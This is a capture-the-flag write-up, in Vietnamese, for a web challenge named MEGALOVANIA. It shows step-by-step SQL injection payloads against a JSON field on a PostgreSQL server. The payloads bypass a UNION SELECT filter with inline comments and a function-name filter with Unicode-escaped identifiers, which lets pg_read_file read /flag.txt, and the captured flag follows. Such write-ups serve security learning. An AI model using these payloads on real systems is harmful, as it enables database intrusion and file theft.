



# MEGALOVANIA

## Summary

```
it's a beautiful day outside. birds are singing, flowers are blooming...
```

## Solution

### Test boolean-based SQL injection

```json
{"deaths":"0 OR 1=1"}
```



Số lượng câu thoại tăng lên khá nhiều.

Giá trị `deaths` được nối vào câu truy vấn SQL.

Tiếp tục lấy thông tin version db bằng body:

```json
{"deaths":"0 UNION SELECT version()-- "}
```

Response:

```json
{"status":"blocked"}
```

Server có bộ lọc chặn chuỗi `UNION SELECT`.

### Bypass bộ lọc bằng comment SQL

Chèn comment giữa `UNION` và `SELECT`:

```json
{"deaths":"0 UNION/**/SELECT version()-- "}
```



```text
"PostgreSQL 16.15 on x86_64-alpine-linux-musl, compiled by cc (Alpine 15.2.0) 15.2.0, 64-bit",
```

Thành công và biết được database là PostgreSQL.

### Lấy tên database hiện tại

```json
{"deaths":"0 UNION/**/SELECT current_database()-- "}
```

Response chứa:

```text
"sansfight",
```

Đây là phép kiểm tra bổ sung cho thấy câu lệnh `UNION SELECT` đã thực thi được.

### Bypass bộ lọc tên hàm

Thử gọi trực tiếp `pg_read_file` tiếp tục bị chặn. PostgreSQL hỗ trợ Unicode-escaped identifier, vì vậy có thể viết dấu gạch dưới trong tên hàm bằng `\005f` để database vẫn hiểu là `pg_read_file` nhưng bộ lọc không thấy chuỗi literal `pg_`. Vì payload nằm trong JSON, request raw phải giữ 2 dấu `\\` trước mỗi chuỗi `005f` để JSON parser giải mã thành một dấu `\` trước khi PostgreSQL xử lý.

```json
{"deaths":"0 UNION/**/SELECT U&\"pg\\005fread\\005ffile\"('/flag.txt')-- "}
```



## Flag

```text
PTITCTF{https://youtu.be/0FCvzsVlXpQ?si=always_wondered_why_people_never_use_their_strongest_attack_first_3476b619ad78}
```
